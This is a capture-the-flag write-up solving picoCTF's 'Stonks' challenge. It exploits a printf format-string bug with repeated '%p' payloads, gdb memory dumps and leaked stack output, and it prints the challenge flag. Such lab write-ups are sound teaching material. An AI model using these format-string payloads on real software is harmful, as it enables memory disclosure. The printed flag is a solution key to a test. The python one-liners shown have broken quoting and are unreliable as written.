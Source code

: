# Stonks
Category: Binary Exploitation, 20 points

## Description

> I decided to try something noone else has before. I made a bot to
automatically trade stonks for me using AI and machine learning. I wouldn't
believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 16439

## Solution

After checking the connecting to the server, and looking into `vuln.c` we
notice that the `buy_stonks` function which accepts user's input, is using a
user provided string as a format string for a call of `printf`, specifically
this section of the code:

```
    char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```

This is a [Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability.


In addition to that the flag is read in this same `buy_stonks` function from a
file:

```
    char api_buf[FLAG_BUFFER];
    printf("api_buf address: %p\n", api_buf);
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);
```

So the idea is to provide a format string that can show us the contents of
`api_buf`.

After a few experiments with the local version of the program, adding `%p`, we
know then what kind of string to supply that would allow us to check the
contents, but it would also need to be decoded into chars.

To do this I used gdb to debug the locally compiled program with debug
symbols, created a dummy flag file, and provided a bunch of `%p.` as the
format specifier to `printf` stored in `user_buf`.

Checking with gdb:

```
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1

Breakpoint 1, buy_stonks (p=0x5555555592a0) at vuln.c:62
62      int buy_stonks(Portfolio *p) {
(gdb) n
91              printf("What is your API token?\n");
(gdb) x /s api_buf
0x7fffffffd4c0: "picoCTF{ahhh_32hfadf23}\n"
(gdb) x /xg api_buf
0x7fffffffd4c0: 0x7b4654436f636970
(gdb) x /xw api_buf
0x7fffffffd4c0: 0x6f636970
(gdb) x /3xb api_buf
0x7fffffffd4c0: 0x70    0x69    0x63
(gdb) x /3x api_buf
0x7fffffffd4c0: 0x70    0x69    0x63
(gdb) x /3xw api_buf
0x7fffffffd4c0: 0x6f636970      0x7b465443      0x68686861
(gdb) x /20xg $sp
0x7fffffffd490: 0x00007fffffffd4a0      0x00005555555592a0
0x7fffffffd4a0: 0x0000000100000000      0x00005555555596d0
0x7fffffffd4b0: 0x000055555555a980      0x000055555555a9a0
0x7fffffffd4c0: 0x7b4654436f636970      0x6832335f68686861
0x7fffffffd4d0: 0x0a7d333266646166      0x00007ffff7f73300
0x7fffffffd4e0: 0x00007ffff7ffd000      0x00007ffff7dfd119
0x7fffffffd4f0: 0x000000000000000a      0x00007ffff7dfd543
0x7fffffffd500: 0x0000000000000014      0x00007ffff7f725a0
0x7fffffffd510: 0x0000555555556161      0x00007ffff7df26fa
0x7fffffffd520: 0x0000000000000000      0x00007ffff7dbcced
```

Doing the math between where the flag is (0x7fffffffd4c0) and where the stack
pointer is (0x7fffffffd490) we can see that the difference is 0x30 or 48,
therefore we must insert something that prints at minimum the previous 48 bytes +
the length of the actual flag.
48 bytes in 8 byte words is 6 words. Since we don't know the length of the
flag, we must take the worst case which is that of the length of the flag
buffer, which is given in the code by the macro `FLAG_BUFFER` which is 128
bytes or 16 64-bit words, therefore we need to print to be safe to catch all
of the flag 16 + 8 words or 24, which can be done by injecting 24 '%p' in the
input.o

This can be done using python: 

```
python -c "print(f"%p." * 24 + "%p")
```

We can see that the actual contents shown by printf are:

```
0x1.0x1.0x7ffff7e79257.0x7ffff7f74570.0x7fffffff.0x7fffffffd4a0.0x5555555592a0.0x100000000.0x5555555596d0.0x55555555a960.0x55555555a980.0x7b4654436f636970.0x6832335f68686861.0xa7d333266646166.0x7ffff7f73300.0x7ffff7ffd000.0x7ffff7dfd119.0xa.0x7ffff7dfd543.0x14.0x7ffff7f725a0.0x555555556151.0x7ffff7df26fa.(nil).0x7ffff7dbcced97
```

We can verify from gdb that the contents of the flag start to appear 12 words
of 64-bit in, therefore we must amend our estimates to use 12 + 16 and use 38
64-bit words, but this assumes that the server is running a 64bit OS,
therefore it's better to take into account the number of bytes.

38 * 8 = 304 bytes that we need to read and starting from byte 96, we should
start to see the contents of the flag all things staying equal.


Doing this and examining the output we realize that the flag starts to appear at word 15
(32bit words), and considering the FLAG_BUFFER is 128 bytes that gives us 32
(32-bit) more words to read from that position onwards. That makes it 47 words
to read.

```
python -c "print(f"%p". * 47 + "%p")
```

Then we capture this and start decoding from the 15 word keeping in mind that
this is encoded using little endian. We do this up to the point where we find
a `\0` terminating the C-string.

```
0x8da1430.0x804b000.0x80489c3.0xf7efed80.0xffffffff.0x1.0x8d9f160.0xf7f0c110.0xf7efedc7.(nil).0x8da0180.0x3.0x8da1410.0x8da1430.0x6f636970.0x7b465443.0x306c5f49.0x345f7435.0x6d5f6c6c.0x306d5f79.0x5f79336e.0x62633763.0x65616336.0xfff7007d.0xf7f39af8.0xf7f0c440.0xa44c5d00.0x1.(nil).0xf7d9bce9.0xf7f0d0c0.0xf7efe5c0.0xf7efe000.0xfff70718.0xf7d8c68d.0xf7efe5c0.0x8048eca.0xfff70724.(nil).0xf7f20f09.0x804b000.0xf7efe000.0xf7efee20.0xfff70758.0xf7f26d50.0xf7eff890.0xa44c5d00.0xf7efe000.0x804b000.0xfff70758.0x8048c86.0x8d9f160.0xfff70744.0xfff70758.0x8048be9.0xf7efe3fc.(nil).0xfff7080c.0xfff70804.0x1.0x1.0x8d9f160.0xa44c5d00.0xfff70770.(nil).(nil).0xf7d41fa1.0xf7efe000.0xf7efe000.(nil).0xf7d41fa1.0x1.0xfff70804.0xfff7080c
```

This was done in the `main.py`

This CTF lead me through a rabbithole to refresh concepts I had seen back in
my studies of calling conventions, that explains how are parameters passed to
a procedure in assembly, how is the frame pointer, instruction pointer backed
up and restored, some of the common x86 register names, etc... as well as
keeping in mind the endianness of memory.

In addition something that was key to convincing me of what I was doing was
using gdb with the examine `x` command and experimenting with the options
there. 

Having said that I spent most of the time understating why gdb wouldn't show
the complete flag (or any complete word memory contents for that matter),
whenever I used `%x` format specifier like many write ups mentioned.

The explanation for that was done in the addendum
[gdb_debugging](./gdb_debugging.md) and is another hard lesson.


## Flag

picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}
